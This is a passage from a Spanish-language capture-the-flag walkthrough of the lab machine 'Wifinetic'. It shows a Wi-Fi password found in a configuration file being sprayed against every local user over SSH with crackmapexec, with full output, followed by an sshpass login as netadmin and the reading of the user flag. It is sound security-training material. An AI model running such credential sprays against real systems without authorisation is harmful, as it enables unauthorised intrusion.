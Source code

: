 No estoy seguro de por qué se agota el tiempo al principio, pero eventualmente lo logra y encuentra solo el dominio principal.

### Shell como administrador de red <a href="#shell-as-netadmin" id="shell-as-netadmin"></a>

#### Fuerza bruta de contraseña SSH <a href="#ssh-password-bruteforce" id="ssh-password-bruteforce"></a>

Con la contraseña de la configuración Wifi, la usaré `crackmapexec`para probar cada usuario del `passwd`archivo con la contraseña de la configuración inalámbrica a través de SSH. Me gusta usar `--continue-on-success`en caso de que haya más de un usuario que comparta esa contraseña. Encuentra uno:

```
oxdf@hacky$ crackmapexec ssh 10.10.11.247 -u users -p 'VeRyUniUqWiFIPasswrd1!' -
ontinue-on-success
SSH         10.10.11.247    22     10.10.11.247     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
SSH         10.10.11.247    22     10.10.11.247     [-] root:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] daemon:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] ftp:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] network:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] nobody:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] ntp:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] dnsmasq:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] logd:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] ubus:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [+] netadmin:VeRyUniUqWiFIPasswrd1!
```

#### Caparazón <a href="#shell" id="shell"></a>

Puedo conectarme con ese nombre de usuario/contraseña:

```
oxdf@hacky$ sshpass -p 'VeRyUniUqWiFIPasswrd1!' ssh netadmin@10.10.11.247
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)
...[snip]...
netadmin@wifinetic:~$ 
```

Y lea la bandera del usuario:

```
netadmin@wifinetic:~$ cat user.txt
e5540a0a************************
```
